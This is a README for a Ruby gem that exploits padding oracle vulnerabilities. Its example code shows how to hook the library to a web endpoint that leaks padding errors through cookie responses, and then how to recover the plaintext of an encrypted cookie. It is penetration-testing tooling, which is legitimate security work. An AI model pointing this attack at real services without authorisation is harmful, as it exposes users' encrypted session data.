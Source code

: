 # Paddingoracle

This is a Rubyframework for exploiting padding oracle vulnerabilities based on this fantastic Python project:

https://github.com/mwielgoszewski/python-paddingoracle

## Usage


You will first need to extend the module with your own padding_oracle function. Example:

```
require 'httparty'
require 'base64'
require 'uri'

URL = 'http://google.com'
module Paddingoracle
  def decrypt_oracle(string)
    string = URI.escape(Base64.strict_encode64(string))
    response = HTTParty.get(URL, cookies: {auth: string})

    raise "Invalid padding" if response.code != 200
  end
end
```

You can then run the attack like this;
```
Blocksize = 8
COOKIE = 'vulnerable encrypted data'
bcookie = Base64.decode64(COOKIE)
plain = Paddingoracle::recover_all_blocks(bcookie, Blocksize)
puts plain
```

## Contributing

This product was written to solve a specific problem - I'm happy to investigate bugs but this type of codebase is not suited to new features or "how to use" requests.

## License

The gem is available as open source under the terms of the [MIT License](http://opensource.org/licenses/MIT).

